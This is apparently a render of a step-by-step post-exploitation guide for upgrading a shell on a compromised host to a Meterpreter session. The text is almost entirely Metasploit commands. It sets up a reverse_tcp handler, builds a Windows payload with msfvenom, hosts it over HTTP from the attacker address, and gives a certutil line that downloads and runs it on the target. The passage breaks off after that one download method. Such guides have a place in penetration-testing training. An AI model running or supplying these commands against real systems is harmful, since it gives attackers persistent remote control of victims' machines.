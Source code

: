 Adjust IP/ports/paths as needed.

### A) One-command upgrade inside Metasploit (recommended when you already have a Metasploit-managed shell)
```
msfconsole
setg LHOST 10.10.14.10
setg LPORT 4444
sessions -l
sessions -u 1
```
- If sessions -u fails or you want more control, use the module explicitly:
```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.10.14.10
set LPORT 4444
set HANDLER true
run
```
- Interact with the new Meterpreter session:
```
sessions -l
sessions -i <new_meterpreter_id>
sysinfo
getuid
```

### B) Manual upgrade (Windows) — when your shell is not in Metasploit

1) Start a handler:
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.10
set LPORT 4444
run -j
```

2) Generate the payload:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f exe -o meter64.exe
```

3) Host it:
```
python3 -m http.server 80
```

4) From the Windows shell on the target, download and execute (pick one method):

- certutil:
```
certutil -urlcache -f http://10.10.14.10/meter64.exe meter64.exe
meter64.exe
```
